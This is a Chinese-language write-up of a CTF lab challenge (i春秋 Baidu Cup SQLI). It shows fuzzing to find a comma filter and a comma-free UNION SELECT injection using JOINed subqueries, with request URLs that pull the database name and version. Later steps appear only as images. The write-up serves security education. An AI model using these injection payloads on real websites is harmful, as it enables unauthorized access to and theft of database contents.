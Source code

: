例题 1 i 春秋百度杯九月场 SQLI
====================

[https://www.ichunqiu.com/battalion?t=1&r=54791](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.ichunqiu.com%2Fbattalion%3Ft%3D1%26r%3D54791)  
首先在源代码里有提示 login.php, 但是这是个假链接，真链接在 header 里 l0gin.php

```
http://81abba4bbfd54553ab84f1969f4479dc0e3ad323bdca49b0.changame.ichunqiu.com/l0gin.php?id=1'


```

这里进行模糊测试，看看过滤了哪些参数  
参考：[https://segmentfault.com/a/1190000018748071](https://links.jianshu.com/go?to=https%3A%2F%2Fsegmentfault.com%2Fa%2F1190000018748071)  
[https://www.4hou.com/vulnerable/6933.html](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.4hou.com%2Fvulnerable%2F6933.html)  
这里时第一次用 fuzz，不太熟练，自己会在测试中逐渐加入自己的语句，提高效率，这里强行解释一波  

![](http://upload-images.jianshu.io/upload_images/1905688-0a2b34281aae9f53.png) image.png

这里两个文件长度应该差 1，但是缺差了 9，点进去看一下，发现，后面全都被截取了，应该是过滤了逗号

![](http://upload-images.jianshu.io/upload_images/1905688-806903d01681d8ed.png) image.png

![](http://upload-images.jianshu.io/upload_images/1905688-7613acd2d0a2f6ca.png) image.png

这里我们使用

```
127' UNION SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e)#


```

这条语句

```
http://53574d90404b480e84e9c1d271100ceeb27c702c456643d4.game.ichunqiu.com/l0gin.php?id=1' union select * from (select database()) a join (select version() ) b %23


```

发现页面正常，这里我们其实成功了但是只会显示第一句因为联合查询第一个语句有结果的话就会出第一个语句的结果我们把 1 改为不存的值就行

![](http://upload-images.jianshu.io/upload_images/1905688-4c494d8d191a4e90.png) image.png

查表名

![](http://upload-images.jianshu.io/upload_images/1905688-0c4195ab289edf40.png) image.png

查字段名

![](http://upload-images.jianshu.io/upload_images/1905688-0a95d92902937293.png) image.png
